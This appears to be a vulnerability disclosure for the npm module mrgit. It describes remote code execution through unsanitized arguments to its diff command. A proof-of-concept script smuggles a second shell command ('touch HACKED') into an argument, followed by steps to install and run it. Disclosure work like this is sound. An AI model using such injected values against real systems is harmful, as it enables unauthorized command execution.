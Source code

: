 # Description

The `mrgit` module is vulnerable against `RCE` since some `inputs` are concatenated without sanitization to a `command` that is executed

# POC

1. Create the following PoC file:

```js
// poc.js
const diff = require( 'mrgit/lib/commands/diff' );
diff.execute({arguments:['test; touch HACKED; #'], toolOptions:{packages:'', }, repository:{directory:''}})

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i mrgit # Install affected module
git init # Initializes the current directory as *git* dir
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
